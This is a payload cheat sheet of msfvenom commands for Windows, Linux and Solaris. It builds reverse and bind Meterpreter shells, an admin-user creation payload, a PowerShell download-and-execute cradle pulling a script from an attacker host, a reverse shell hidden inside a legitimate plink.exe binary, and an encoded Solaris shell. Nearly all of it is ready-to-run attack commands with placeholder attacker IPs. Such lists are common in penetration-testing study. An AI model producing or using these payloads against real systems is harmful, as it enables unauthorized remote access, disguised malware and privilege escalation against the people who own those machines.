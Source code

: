 #### Windows

1. **Reverse Shell:**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe > reverse.exe
	```
2. **Bind Shell:**
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=<target_ip> LPORT=<target_port> -f exe > bind.exe
```
3. **Create User:**
	```bash
	msfvenom -p windows/adduser USER=<username> PASS=<password> -f exe > adduser.exe
	```
4. **CMD Shell:**
	```bash
	msfvenom -p windows/shell/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe > prompt.exe
	```
5. **Execute Command:**
	```bash
	msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://<attack_ip>/nishang.ps1')\"" -f exe > pay.exe
	```

	```bash
	msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
	```
6. **Embedded Inside an Executable:**
	```bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
	```

#### Linux Payloads
1. **Reverse Shell:**
	```bash
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f elf > reverse.elf
	```

	```bash
	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f elf > shell.elf
	```
2. **Bind Shell:**
	```bash
	msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<target_ip> LPORT=<attack_port> -f elf > bind.elf
	```
3. **SunOS (Solaris):**
	```bash
	msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
	```
